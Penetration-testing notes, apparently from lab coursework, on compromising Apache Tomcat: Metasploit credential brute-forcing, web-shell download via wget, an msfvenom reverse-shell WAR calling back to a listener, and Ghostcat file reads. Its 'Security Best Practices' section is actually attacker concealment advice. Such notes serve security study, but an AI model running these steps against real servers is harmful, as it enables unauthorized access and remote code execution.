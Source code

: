 
### **Login Brute Force**

- Use `tomcat_mgr_login` Metasploit module:
```bash
set RHOSTS <ip>
set RPORT 8180
set VHOST <hostname>
set STOP_ON_SUCCESS true
run
```
- Use default user/pass wordlists (e.g., `tomcat:admin`)
- Optional: Proxy traffic through **Burp** with `set PROXIES HTTP:127.0.0.1:8080` for debugging
- Tomcat uses **Basic Auth** → credentials base64 encoded in `Authorization` header
```bash
echo YWRtaW46dmFncmFudA== | base64 -d  # admin:vagrant
```

---

### **Brute Force Script (Python)**

- Script accepts:
    - `-U` URL
    - `-P` path (`/manager` or `/host-manager`)
    - `-u` usernames file
    - `-p` passwords file

- Basic logic: loop through username/password pairs → send HTTP request → check for `200 OK`

---

### **Tomcat Manager – WAR File Upload**

#### **Manual Upload via GUI**

1. **Login** to `/manager/html` with valid credentials
2. Create **JSP web shell** (e.g., `cmd.jsp`) 
```bash
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
```
	OR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.251 LPORT=4443 -f war > backup.war
```

3. Package into `.war`:
```bash
zip -r backup.war cmd.jsp
```
4. **Upload & Deploy** via Manager interface
5.  Access shell:
```bash
http://<host>:<port>/backup/cmd.jsp?cmd=id
```
6. **Optional**: Remove WAR via “Undeploy” in GUI
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war > backup.war
```
- Deploy via manager
- Trigger shell and catch with `nc`

---

### **Security Best Practices**

- **Rename** web shell with random name (e.g., MD5 hash)
- **Restrict access** by IP or password
- **Document** upload paths and remove artifacts after use

---

### **Ghostcat (CVE-2020-1938)**

- **Unauthenticated LFI** via AJP protocol (port 8009)
- Affects Tomcat < 9.0.31, 8.5.51, 7.0.100
- Confirm with Nmap:
```bash
nmap -sV -p 8009,8080 <host>
```

- Exploit to read files (within webroot):
```bash
python2.7 tomcat-ajp.lfi.py <host> -p 8009 -f WEB-INF/web.xml
```

---

### **Key Takeaways**

- If /manager or /host-manager is accessible → test for **weak/default creds**
- Successful login → upload **WAR file** to gain **RCE**
- Ghostcat allows **unauthenticated LFI**
- Tomcat often runs as **SYSTEM/root** internally → high value target